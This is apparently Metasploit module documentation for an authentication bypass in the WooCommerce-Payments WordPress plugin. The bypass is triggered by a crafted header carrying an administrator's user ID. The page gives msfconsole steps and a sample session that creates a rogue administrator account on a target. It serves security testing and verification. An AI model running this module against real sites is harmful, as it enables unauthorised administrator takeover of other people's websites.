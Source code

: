 ## Vulnerable Application
WooCommerce-Payments plugin for Wordpress versions 4.8 prior to 4.8.2, 4.9 prior to 4.9.1,
5.0 prior to 5.0.4, 5.1 prior to 5.1.3, 5.2 prior to 5.2.2, 5.3 prior to 5.3.1, 5.4 prior to 5.4.1,
5.5 prior to 5.5.2, and 5.6 prior to 5.6.2 contain an authentication bypass by specifying a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header. With this authentication bypass, a user can then use the API
to create a new user with administrative privileges on the target WordPress site IF the user ID
selected corresponds to an administrator account.

### Install

Download, install, and activate [woocomerce-payments 5.6.1](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and one does not need to install the main WooCommerce platform itself.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. A new WordPress administrator account should be created.
1. Verify the new account uses the username and password specified in the USERNAME and PASSWORD datastore options respectively.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for an WordPress administrator. Defaults to `1`.

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf6 > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set username h00die
username => h00die
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create an administrator user -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
